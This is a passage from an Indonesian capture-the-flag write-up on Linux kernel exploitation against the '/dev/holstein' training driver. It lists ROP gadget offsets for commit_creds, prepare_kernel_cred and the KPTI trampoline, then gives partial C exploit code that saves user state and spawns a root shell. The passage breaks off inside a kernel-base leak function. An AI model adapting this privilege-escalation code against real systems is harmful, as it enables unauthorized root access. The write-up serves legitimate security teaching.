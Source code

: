 ini contohnya:

```c
unsigned long user_cs, user_ss, user_rsp, user_rflags;
unsigned long commit_creds; //0x6e390
unsigned long prepare_kernel_cred; //0x6e240
unsigned long pop_rdi; //0x27bbdc                                   
unsigned long pop_rcx; //0x32cdd3
unsigned long mov_rdi_rax_rep_movsq; //0x60c96b
unsigned long swapgs; //0x800e26   
```
ini adalah catatan penting dari pembuat tantangan ini tentang menemukan gadget rop, ```Kebanyakan alat untuk menemukan gadget ROP tidak diuji dengan baik terhadap biner dalam jumlah besar seperti kernel. Hati-hati, karena ada banyak keluaran yang salah, seperti melewatkan instruksi yang tidak didukung atau menghilangkan awalan instruksi. Selain itu, sebagian besar alat tidak dapat menentukan dengan tepat apakah suatu gadget benar-benar termasuk dalam area yang dapat dieksekusi di ruang kernel, jadi berhati-hatilah dengan gadget dengan alamat yang besar (misalnya 0xffffffff81cXXXYYY).``` baik, pertama kita akan membocorkan alamat basis kernel dengan kode ini:

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define ERR(msg)                                                               \
  do {                                                                         \
    perror(msg);                                                               \
    exit(EXIT_FAILURE);                                                        \
  } while (0)

unsigned long user_cs, user_ss, user_rsp, user_rflags;
unsigned long prepare_kernel_creed;  //0x6e240
unsigned long commit_creds; //0x6e390
unsigned long pop_rdi; //0x27bbdc
unsigned long pop_rcx; //0x32cdd3
unsigned long mov_rdi_rax_rep_movsq; //0x60c96b
unsigned long kpti_trampoline; //0x800e26
unsigned long kbase, vfs_read;
int global_fd;

static void save_state() {
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_rsp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax;");
}

static void shell() {
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  puts("ROOOOT");
  execve("/bin/sh", argv, envp);
}

void leak()
{
  global_fd = open("/dev/holstein",O_RDWR);
  if(global_fd == -1){
    ERR("open(holstein)");
  }else{
```
